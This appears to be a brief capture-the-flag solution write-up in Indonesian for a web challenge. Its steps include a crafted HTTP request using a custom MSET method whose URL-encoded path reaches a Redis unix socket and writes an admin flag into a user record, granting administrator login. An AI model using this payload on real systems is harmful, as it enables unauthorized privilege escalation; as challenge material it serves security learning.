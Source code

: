 ### solver

- Create account username `heker`
- Send HTTP Request dengan custom method MSET <br>
  `MSET` /static/`unix:%2ftmp%2fredis.sock:heker%20%27%7B%22username%22%3A%22heker%22%2C%22is_admin%22%3Atrue%7D%27%20`/uwu/cute_bomber.png HTTP/1.1
- Login pada laman /login.php dengan username heker
- Flag didapatkan